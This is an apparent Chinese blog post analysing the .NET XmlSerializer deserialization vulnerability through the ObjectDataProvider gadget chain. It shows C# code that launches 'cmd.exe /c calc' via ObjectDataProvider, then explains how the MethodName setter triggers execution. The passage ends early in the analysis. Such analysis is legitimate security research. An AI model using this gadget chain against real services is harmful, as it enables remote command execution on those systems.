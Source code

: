 ```yaml
---
title: >-
  '从三味书屋到百草堂，从XmlSerializer到BinnaryFormatter之XmlSerializer反序列化漏洞ObjectDataProvider利用链'
date: 2025-05-26 14:23:34
tags:
  - C#
  - 反序列化
  - XmlSerializer
  - BinnaryFormatter
  - ObjectDataProvider
categories:
  - 漏洞原理
top: 221
description: 本文详细介绍了 XmlSerializer 反序列化漏洞利用的 ObjectDataProvider 调用链路
---
```

# 利用链分析
我们先从`ObjectDataProvider`开始，有下面一段代码  
```c#
using System;
using System.Diagnostics;
using System.Windows.Data;
using System.IO;
using System.Xml.Serialization;

namespace Test
{
    public class Program
    {
        static void Main(string[] args)
        {
            
            ObjectDataProvider odp = new ObjectDataProvider();
			odp.ObjectInstance = new Process();
            odp.MethodParameters.Add("cmd.exe");
            odp.MethodParameters.Add("/c calc");
            odp.MethodName = "Start";
        }
    }
}
```
当这段代码运行后会弹出计算机，那么命令行代码的执行时机是在哪呢，我们观察`ObjectDataProvider`的`MethodName`以及`MethodParameters`成员变量，发现`Methodname`存在`set`访问器  
在`set`访问器中有一个if判断是否是延迟刷新，默认计算结果为`false`即会调用到`Refresh`方法  
```c#
[DefaultValue(null)]
public string MethodName
{
    get
    {
        return _methodName;
    }
    set
    {
        _methodName = value;
        OnPropertyChanged("MethodName");
        if (!base.IsRefreshDeferred)
        {
            Refresh();
        }
    }
```